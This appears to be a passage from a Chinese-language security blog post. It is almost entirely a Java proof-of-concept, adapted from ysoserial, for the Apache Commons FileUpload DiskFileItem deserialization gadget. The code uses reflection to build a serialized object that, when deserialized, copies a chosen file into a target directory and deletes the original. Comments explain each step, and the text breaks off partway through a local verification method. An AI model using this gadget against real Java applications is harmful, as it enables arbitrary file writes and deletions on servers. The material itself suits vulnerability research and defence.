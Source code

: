 POC如下，这是基于ysoserial改出来的poc：

```java
import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import org.apache.commons.io.output.ThresholdingOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Paths;

public class FileUpload1 {
    private static final String serialFileName = "fileupload2.ser";

    public static void main(String[] args) throws Exception {
        // copyTo指的是目标目录
        String copyTo = Paths.get("C:\\Users", "15137", "Desktop", "hello1").toUri().getPath();
        // 源文件
        String copyAndDelete = Paths.get("C:\\Users", "15137", "Desktop", "hello2", "hello.txt").toUri().getPath();
        int thresh = 0;
        byte[] data = new byte[1];
        // if thresh < written length, delete outputFile after copying to repository temp file
        // otherwise write the contents to repository temp file
        File repository = new File(copyTo);
        // 这里其实不需要设置"test"、"application/octet-stream"也是可以的，都设置为null即可
        // 这里的sizeThreshold在后边会通过反射修改成0的，我也不知道为什么ysoserial要这么写
        DiskFileItem diskFileItem = new DiskFileItem("test", "application/octet-stream", false, "test", 100000, repository);
        File outputFile = new File(copyAndDelete);
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(thresh, outputFile);
        // 这个操作其实也没啥用
        Field mos = dfos.getClass().getDeclaredField("memoryOutputStream");
        mos.setAccessible(true);
        OutputStream os = (OutputStream)mos.get(dfos);
        os.write(data);
		// 设置要写入数据的长度
        Field writtenField = ThresholdingOutputStream.class.getDeclaredField("written");
        writtenField.setAccessible(true);
        writtenField.set(dfos, data.length);
		// 通过反射初始化DeferredFileOutputStream流
        Field dfosField = diskFileItem.getClass().getDeclaredField("dfos");
        dfosField.setAccessible(true);
        dfosField.set(diskFileItem, dfos);
		// 设置sizeThreshold的值，和前边我们说的一样，设置成0即可
        Field sizeThresholdField = diskFileItem.getClass().getDeclaredField("sizeThreshold");
        sizeThresholdField.setAccessible(true);
        sizeThresholdField.set(diskFileItem, 0);
		// 序列化 & 反序列化验证
        serialize(diskFileItem);
        verify();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
```